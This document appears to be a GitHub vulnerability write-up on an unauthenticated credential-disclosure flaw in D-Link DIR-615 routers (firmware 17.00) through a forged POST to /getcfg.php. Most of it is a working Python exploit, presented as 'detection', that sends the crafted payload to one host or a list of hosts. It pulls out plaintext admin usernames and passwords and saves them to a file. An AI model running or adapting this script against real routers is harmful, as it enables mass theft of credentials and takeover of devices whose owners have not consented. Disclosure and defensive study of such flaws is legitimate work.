 # D-LINK-DIR-615
## Sensitive information disclosure vulnerability in D-Link dir-615 Hardware Version : Q1 Firmware Version : 17.00

Sensitive information disclosure vulnerability exists in D-Link dir-615 Hardware Version : Q1 Firmware Version : 17.00. An attacker can obtain a user name and password by forging a post request to the / getcfg.php page


## harm

An attacker can access this page without authorization, obtain the user name and password in plaintext, and obtain background management privileges after logging in to the background


## Test method
1. Visit the d-link-dir-615 background login page

![image](https://user-images.githubusercontent.com/90023952/131967300-7de24cb6-2c48-4c29-9e80-c89ca244ccd4.png)

2. Enter any password, then grab the packet and modify the packet content as follows

![image](https://user-images.githubusercontent.com/90023952/131959930-bdc051b1-e234-4803-972d-adf58ddeb554.png)

![image](https://user-images.githubusercontent.com/90023952/131970186-aa50bc1f-8fea-44ab-b555-bbc0734409db.png)

3.Use the obtained user name and password to successfully log in to the background

![image](https://user-images.githubusercontent.com/90023952/131967546-aedaccf8-c7e6-45a2-aad3-3b30c0869a6a.png)

## Script automation detection

```
import requests
import argparse
import re
import urllib3
urllib3.disable_warnings()
parser = argparse.ArgumentParser(description='api help')
parser.add_argument('-u','--url', help='Please Input a url!',default='')
parser.add_argument('-r','--read', help='Please Input a file!',default='')
args=parser.parse_args()
url=args.url
file=args.read

if url !="":
    url=url+"/getcfg.php"
    header={
    "User-Agent":"Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36",
    "Content-Type":"application/x-www-form-urlencoded",
    "Cookie":"",
    "X-Forwarded-For":"127.0.0.1"
            }
    data = ("SERVICES=DEVICE.ACCOUNT&AUTHORIZED_GROUP=1%0a")
    response=requests.post(url,data=data,headers=header,verify=False,timeout=10)
    print(response.text)
    if  "DEVICE.ACCOUNT" in response.text and response.status_code == 200:
        print("[" + url + "]" + "[===dangerous===]")
    else:
        print("["+url+"]"+"[safe]")

if file !="":
    txt=file
    f=open(txt,'r+')
    for i in f.readlines():
        url=i.strip()
        url=url+"/getcfg.php"
        header={
        "User-Agent":"Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36",
        "Content-Type":"application/x-www-form-urlencoded",
        "Cookie":"",
        "X-Forwarded-For": "127.0.0.1"
        }
        data = ("SERVICES=DEVICE.ACCOUNT&AUTHORIZED_GROUP=1%0a")
        try:
            response=requests.post(url,data=data,headers=header,verify=False,timeout=10)
            if "DEVICE.ACCOUNT" in response.text and response.status_code == 200:
                name = re.findall('<name>.*', response.text)
                password = re.findall('<password>.*', response.text)
                print("[" + url + "]" + "[===dangerous===]")
                w = open("DIR-615-Vulnerability-file.txt", "a")
                w.write(url + '\r\n' + repr(name) + repr(password) + '\r\n')
            else:
                print("[" + url + "]" + "[safe]")
        except Exception as e:
            print("["+url+"]"+"[safe]",format(e))


```
1. Detect a single URL

python D-LINK-DIR-615.py -u http://xxx.xxx.xxx.xxx

![image](https://user-images.githubusercontent.com/90023952/131969868-2209f5e9-31ec-4b1f-bb51-5779e6511827.png)

2. Batch inspection

python D-LINK-DIR-615.py -r file.txt

![image](https://user-images.githubusercontent.com/90023952/132079411-872f953b-edf7-49d5-9db5-56e7f8530225.png)

After the batch detection script is executed, a file named "dir-615-vulnerability-file. TXT" will be generated in the current folder, with the contents of vulnerability URL and explored user name and password

![image](https://user-images.githubusercontent.com/90023952/131964740-c30b05a7-86e2-4345-8b10-a63e82d6df98.png)


![image](https://user-images.githubusercontent.com/90023952/131964819-83b55c78-5dc5-48a7-b62a-acab7258a838.png)







